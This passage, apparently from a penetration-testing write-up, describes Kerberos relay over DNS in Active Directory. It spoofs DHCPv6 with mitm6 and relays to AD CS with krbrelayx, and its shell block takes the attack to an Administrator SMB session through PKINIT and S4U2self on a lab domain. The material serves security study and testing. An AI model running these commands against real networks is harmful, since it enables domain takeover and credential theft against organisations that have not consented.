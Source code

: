   <img src="/assets/img/20251029/49.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Interactive shell</div>
</div>

# Kerberos Relay
Kerberos relay is similar to NTLM relay, but it has its own challenges. "2. Kerberos relaying : state of the art" in ["Abusing multicast poisoning for pre-authenticated Kerberos relay over HTTP with Responder and krbrelayx"](https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with) describes this perfectly. In short, asking DC1 to send us an AP-REQ that includes a service ticket for DC2/CA is not a simple task. We need some tricks described below to achieve this. James Forshaw published some ideas in ["Using Kerberos for Authentication Relay Attacks"](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html), and researchers have since implemented tools based on these techniques to achieve Kerberos relay.

## Kerberos Relay over DNS
Kerberos relay over DNS is described in ["Relaying Kerberos over DNS using krbrelayx and mitm6"](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/). We can act as a DHCPv6 and DNS server by responding to a DHCP request with a spoofed response. Then, we can deny dynamic DNS updates to coerce Kerberos authentication with an SPN we control and relay the authentication.

#### Prerequisites
IPv6 must be enabled on WKS, and we must be on the same LAN as WKS to respond to DHCPv6 requests. DNS dynamic updates must be enabled, which is the default.

#### Examples
If a client sends a DHCPv6 request, we can respond with a spoofed response as a fake DHCPv6 server. The client mistakenly identifies us as a DNS server. When the client tries to update its DNS record dynamically, its machine account authenticates to DNS servers as part of the "Secure dynamic updates" operation.

Under these conditions, we can refuse the update and coerce the client to perform Kerberos authentication. If we impersonate ca.kawakatz.local as an example, the client will request a service ticket for DNS/ca.kawakatz.local and send an AP_REQ to us. We can then simply relay the AP_REQ.

Note that domain controllers cannot be targeted in this attack because they are DNS servers themselves and do not perform dynamic DNS updates.
```sh
# Kerberos relay over DNS to HTTP
python3 krbrelayx.py -smb2support -t http://ca.kawakatz.local/certsrv/certfnsh.asp --adcs --template Machine --victim wks.kawakatz.local -ip <attacker ip>
sudo mitm6 --domain kawakatz.local --host-allowlist wks.kawakatz.local --relay ca.kawakatz.local -v
python3 gettgtpkinit.py -pfx-base64 MII...9PCfs= 'kawakatz.local/WKS$' wks.ccache

# See https://www.thehacker.recipes/ad/movement/kerberos/delegations/s4u2self-abuse for details
# We can also use “UnPAC the hash” and “Silver tickets” as above
python3 gets4uticket.py 'kerberos+ccache://kawakatz.local\wks$:wks.ccache@dc1.kawakatz.local' cifs/wks.kawakatz.local@kawakatz.local Administrator@kawakatz.local /tmp/Administrator.ccache

export KRB5CCNAME=/tmp/Administrator.ccache
sudo python3 smbclient.py -k -no-pass kawakatz.local/Administrator@wks.kawakatz.local
```
<div style="text-align: center; margin: 20px 0;">